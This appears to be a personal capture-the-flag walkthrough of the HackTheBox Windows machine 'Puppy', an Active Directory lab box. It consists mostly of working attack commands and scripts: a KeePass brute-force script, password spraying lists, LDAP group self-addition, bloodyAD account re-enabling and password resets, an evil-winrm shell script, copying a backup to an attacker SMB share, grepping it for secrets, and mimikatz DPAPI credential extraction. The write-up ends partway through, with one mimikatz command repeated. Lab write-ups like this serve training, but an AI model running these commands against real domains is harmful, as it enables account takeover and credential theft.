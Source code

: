 # Puppy

## 📌 Box Info

- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)

creds

levi.james / KingofAkron2025!

53/tcp   open  domain        Simple DNS Plus
[88](Kerberos)/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-21 08:38:48Z)
[111]/tcp  open  [rpcbind](RPC)     2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100003  2,3         2049/udp   nfs
|   100005  1,2,3       2049/udp   mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100024  1           2049/tcp   status
|_100024  1           2049/udp   status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3260/tcp open  iscsi?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)


smbmap -H 10.10.11.70 -u levi.james -p KingofAkron2025!

IPC$
NETLOGON
SYSVOL


add.ldif
```
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
changetype: modify
add: member
member: CN=LEVI B. JAMES,OU=MANPOWER,DC=PUPPY,DC=HTB
```

```
ldapmodify -x -H ldap://10.10.11.70 -D "CN=LEVI B. JAMES,OU=MANPOWER,DC=puppy,DC=htb" -w 'KingofAkron2025!' -f add.ldif
```

```
net rpc group members "DEVELOPERS" -U "levi.james" -S 10.10.11.70
```

we check our perms again

```
smbmap -H 10.10.11.70 -u levi.james -p KingofAkron2025!
```

we view dev

```
smbclient //10.10.11.70/DEV -U levi.james
```

brute-kdbx.sh
```bash
#!/bin/bash

DB="recovery.kdbx"
WORDLIST="/usr/share/wordlists/rockyou.txt"

echo "[*] Starting brute-force on $DB using $WORDLIST"

while IFS= read -r password; do
    echo "[*] Trying: $password"

    echo "$password" | keepassxc-cli db-info "$DB" &>/dev/null

    if [ $? -eq 0 ]; then
        echo "[+] SUCCESS! Password found: $password"
        exit 0
    fi
done < "$WORDLIST"

echo "[-] Brute-force finished. No valid password found."
```

keepassxc recovery.kdbx

enter liverpool

create our user file and password file

user
```
ant.edwards
adam.silver
jamie.williamson
samuel.blake
steve.tucker
```

password
```
Antman2025!
JamieLove2025!
ILY2025!
Steve2025!
HJKL2025!
```

revisit bloodhound

```
MATCH p=shortestPath((n {owned:true})-[:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|CanRDP|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GPLink|AddAllowedToAct|AllowedToAct|WriteAccountRestrictions|SQLAdmin|ReadGMSAPassword|HasSIDHistory|CanPSRemote|SyncLAPSPassword|DumpSMSAPassword|AZMGGrantRole|AZMGAddSecret|AZMGAddOwner|AZMGAddMember|AZMGGrantAppRoles|AZNodeResourceGroup|AZWebsiteContributor|AZLogicAppContributo|AZAutomationContributor|AZAKSContributor|AZAddMembers|AZAddOwner|AZAddSecret|AZAvereContributor|AZContains|AZContributor|AZExecuteCommand|AZGetCertificates|AZGetKeys|AZGetSecrets|AZGlobalAdmin|AZHasRole|AZManagedIdentity|AZMemberOf|AZOwns|AZPrivilegedAuthAdmin|AZPrivilegedRoleAdmin|AZResetPassword|AZUserAccessAdministrator|AZAppAdmin|AZCloudAppAdmin|AZRunsAs|AZKeyVaultContributor|AZVMAdminLogin|AZVMContributor|AZLogicAppContributor|AddSelf|WriteSPN|AddKeyCredentialLink|DCSync*1..]->(m:Group {name:"DOMAIN ADMINS@PUPPY.HTB"})) WHERE NOT n=m RETURN p
```

look to see chain from ant.edwards to domain admin

![[Pasted image 20250522011631.png]]


install bloodyad

```
sudo apt install bloodyAD
```

```bash
/usr/bin/bloodyAD --host 10.10.11.70 -d PUPPY.HTB -u 'ant.edwards' -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE
```

check if adam silver is enabled

```bash
netexec ldap 10.10.11.70 -d puppy.htb -u 'adam.silver' -p 'HJKL2025!'
```

change password

```bash
bloodyAD --host '10.10.11.70' -d 'puppy.htb' -u 'ant.edwards' -p 'Antman2025!' set password adam.silver Pototo_123
```

```bash
netexec ldap 10.10.11.70 -d puppy.htb -u 'adam.silver' -p 'Pototo_123'
```

```bash
evil-winrm -i 10.10.11.70 -d puppy.htb -u adam.silver -p 'Pototo_123'
```

```powershell
whoami /priv
```

since the account gets disabled every 5 minutes

adam_unlocker.sh

```bash
#!/bin/bash

# Step 1: Enable adam.silver
echo "[*] Enabling adam.silver account..."
/usr/bin/bloodyAD --host 10.10.11.70 -d PUPPY.HTB -u 'ant.edwards' -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE

# Step 2: Check if adam.silver is enabled with original password
echo "[*] Testing login with old password (HJKL2025!)..."
netexec ldap 10.10.11.70 -d puppy.htb -u 'adam.silver' -p 'HJKL2025!'

# Step 3: Change password to Pototo_123
echo "[*] Changing password for adam.silver to 'Pototo_123'..."
/usr/bin/bloodyAD --host 10.10.11.70 -d puppy.htb -u 'ant.edwards' -p 'Antman2025!' set password adam.silver Pototo_123

# Step 4: Verify new credentials work
echo "[*] Verifying new password works for adam.silver..."
netexec ldap 10.10.11.70 -d puppy.htb -u 'adam.silver' -p 'Pototo_123'

# Step 5: Spawn Evil-WinRM shell
echo "[*] Launching Evil-WinRM as adam.silver..."
evil-winrm -i 10.10.11.70 -u adam.silver -p 'Pototo_123'
```


Local
```bash
impacket-smbserver loot $(pwd) -smb2support
```

DC
```
copy site-backup-2024-12-30.zip \\10.10.14.3\loot
```

```
unzip site-backup-2024-12-30.zip
```


```
grep -r -i -E 'password|passwd|pwd|secret|token|api|key' .
```

found creds in backup

```bash
evil-winrm -i 10.10.11.70 -u steph.cooper -p 'ChefSteph2025!'
```

```
upload /opt/BloodHound-Legacy-master/Collectors/SharpHound.exe
```

.\sharpHound.exe -c All

show all users in domain
```
net user
```

Look for access of DPAPI
```
dir "$env:APPDATA\Microsoft\Credentials"
dir "$env:LOCALAPPDATA\Microsoft\Credentials"
dir "$env:APPDATA\Microsoft\Protect"
```

https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html

#DPAPI [DPAPI](DPAPI.md)

```
upload mimikatz.exe
```

```
.\mimikatz.exe "dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" "exit"
```

read dpapi in windows
```
.\mimikatz.exe "dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 /rpc" "exit"
```

.\mimikatz.exe "dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 /rpc" "exit"
